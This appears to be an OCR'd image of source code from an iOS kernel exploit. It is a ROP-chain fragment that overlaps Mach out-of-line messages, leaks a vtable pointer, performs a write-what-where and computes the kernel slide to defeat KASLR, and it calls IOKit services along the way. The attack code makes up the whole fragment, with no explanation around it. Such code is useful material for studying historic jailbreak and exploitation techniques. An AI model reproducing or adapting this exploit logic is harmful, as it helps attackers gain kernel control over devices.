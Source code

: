     LoadIntoR0(PUSH, SEG_VAR(tmp_msg.desc.address));
    RopAddR0(PUSH, 1024 - 0x58);
    DerefR0(PUSH);
    StoreR0(PUSH, SEG_VAR(vptr));
    
    LoadIntoR0(PUSH, SEG_VAR(tmp_msg.desc.address));
    RopAddR0(PUSH, 1024 - 0x58 + 4);
    DerefR0(PUSH);
    StoreR0(PUSH, SEG_VAR(vptr)+4);
    
    [dy setSlide:dy.slide+1]; // enter thumb
    RopCallFunction9Deref2(PUSH, @"__simple_dprintf", 0, SEG_VAR(fd1), 2, SEG_VAR(vptr)+4,0,SEG_VAR(testmsg),0,0,0,0,0,0,0);
    RopCallFunction9Deref2(PUSH, @"__simple_dprintf", 0, SEG_VAR(fd1), 2, SEG_VAR(vptr),0,SEG_VAR(testmsg),0,0,0,0,0,0,0);
    RopCallDerefFunctionPointer10Deref2(PUSH, SEG_VAR(_IOServiceClose), 0, SEG_VAR(gasgauge_), 1, SEG_VAR(zero), 0, 0, 0, 0, 0, 0, 0, 0, 0,0);
    argss->waitTime.tv_sec = 1;
    argss->waitTime.tv_nsec = 1000000;
    RopCallDerefFunctionPointer10Deref2(PUSH, SEG_VAR(_IOServiceWaitQuiet), 0, SEG_VAR(svc), 5, SEG_VAR(zero), 0, SEG_VAR(waitTime), 0, 0, 0, 0, 0, 0, 0,0);
    [dy setSlide:dy.slide-1]; // exit thumb
    SendMsg(PUSH, overlapped_port, oolmsg_template_512);
    
    ReadWriteOverlap();
    RopCallFunction9Deref2(PUSH, @"___syscall", 1, SEG_VAR(fd2), 2, SEG_VAR(tmp_msg.desc.address), SYS_write, 0, 0, 1024, 0, 0, 0, 0, 0);
    tmptoscratch();
    LoadIntoR0(PUSH, SEG_VAR(vptr));
    StoreR0(PUSH, SEG_VAR(scratch[1024 - 0x58 + 0x18]));
    LoadIntoR0(PUSH, SEG_VAR(vptr)+4);
    StoreR0(PUSH, SEG_VAR(scratch[1024 - 0x58 + 0x18 + 4]));
    WriteWhatWhere(PUSH, 4096, SEG_VAR(scratch[1024 - 0x58 + 0x10]));
    ReadWriteScratchOverlap();
    
    ReadWriteOverlapped512();
    RopCallFunction9Deref2(PUSH, @"___syscall", 1, SEG_VAR(fd2), 2, SEG_VAR(tmp_msg.desc.address), SYS_write, 0, 0, 4096, 0, 0, 0, 0, 0);
    
    LoadIntoR0(PUSH, SEG_VAR(tmp_msg.desc.address));
    RopAddR0(PUSH, 0x18);
    DerefR0(PUSH);
    RopAddR0(PUSH, -0x02002000);
    StoreR0(PUSH, SEG_VAR(kern_slide));
    
    LoadIntoR0(PUSH, SEG_VAR(tmp_msg.desc.address));
    RopAddR0(PUSH, 0x18 + 4);
    DerefR0(PUSH);
    RopAddR0(PUSH, -0xffffff80);
    StoreR0(PUSH, SEG_VAR(kern_slide)+4);
    
    LoadIntoR0(PUSH, SEG_VAR(kern_slide) + 2);
    Shift2R0(PUSH);
    Shift2R0(PUSH);
    RopAddR0(PUSH, -0x3);
    StoreR0(PUSH, SEG_VAR(tmp1));
    
